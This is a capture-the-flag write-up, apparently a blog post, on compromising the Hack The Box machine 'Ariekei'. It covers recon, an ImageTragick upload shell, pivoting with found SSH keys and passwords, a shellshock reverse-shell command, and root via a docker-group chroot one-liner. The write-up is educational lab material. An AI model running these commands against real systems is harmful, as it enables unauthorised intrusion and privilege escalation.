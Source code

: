 ```yaml
---
title: "Hack The Box - Ariekei"
tags: [linux,insane,shellshock,cgi-bin,imagetragick,docker containers,container,port 1022,docker abuse]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%201.png)

→ Nginx on port 443 [ https ]

→ OpenSSH 7.2p2 ( Xenial ) port 22

→ OpenSSH 6.6.1p1 ( Trusty ) port 1022

## Enumerating HTTPS :

⇒ Found subdomains from SSL Certificate :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%202.png)

⇒ **Enumerating beehive.ariekei.htb**
→ In headers we see ariekei-waf
→ Running gobuster we find :

**/blog**
**/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%203.png)

→ Lets exploit using shellshock
Exploit : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

- It doesn't work because of the **WAF.**

→  The blog page doesn't have anything interesting

⇒ **Enumerating calvin.ariekei.htb**

→ Running gobuster we find :
**/upload**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%204.png)

→ We use ImageTragick to exploit it :  
[https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic](https://book.hacktricks.xyz/pentesting-web/file-upload#imagetragic)

- First lets create .mvg file :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%205.png)

→ We uploaded it and got an shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%206.png)

## Pivoting to Bastion

⇒ In /commons directory there's an .secret directory which contains bastion ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%207.png)

⇒ We ssh'ed into bastion as root [ Port 1022 ] :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%208.png)

## Pivoting to Beehive

⇒ In **commons/container** folder we find **blog-test** ( **Beehive** ) folder. Enumerating the config files we find :

→ Its running on **172.24.0.2**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%209.png)

→ We also found an password :

Password : **Ib3!kTEvYw6*P7s**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2010.png)

⇒ We can use shellshock exploit now as we are on a different machine and WAF won't block it now.

→ Shellshock : [https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

**python [enox.py](http://enox.py/) payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=4444 pages=/cgi-bin/stats**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2011.png)

→ We switched to root using the password we previously found.

→ We found spanishdancer user ssh keys in that user home folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2012.png)

→ Cracked key password : **purple1**

⇒ SSH'ed in using spanishdancer ssh key  :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2013.png)

***USER OWNED***

## Privilege Escalation to Root

→ We see that our user is in docker group. Lets abuse it to get root :

**docker run -v /:/mnt --rm -it bash chroot /mnt sh**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Ariekei%20Box%20f58f647509ac4dbebc0d128b6cdee575/Untitled%2014.png)

***ROOTED***

[TL;DR](https://www.notion.so/TL-DR-d857de4c7a7f4e33969f8b229768d67a)
